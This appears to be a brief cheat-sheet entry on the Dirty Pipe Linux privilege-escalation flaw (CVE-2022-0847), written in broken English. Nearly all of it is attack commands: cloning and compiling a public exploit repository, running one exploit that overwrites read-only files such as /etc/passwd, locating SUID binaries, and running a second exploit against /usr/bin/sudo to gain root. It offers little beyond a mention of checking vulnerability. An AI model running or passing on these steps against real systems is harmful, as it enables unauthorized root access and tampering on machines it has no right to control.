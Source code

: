 # Dirty Pipe

if u have just a read perm this type of exploit allow to u write on any files like `/etc/passwd`

check is vulnerable or not

```bash
git clone <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git>
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

exploit by edit on files

```bash
./exploit-1
```

***

**Exploit 2 - Run SUID Binary as Root:**

```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```
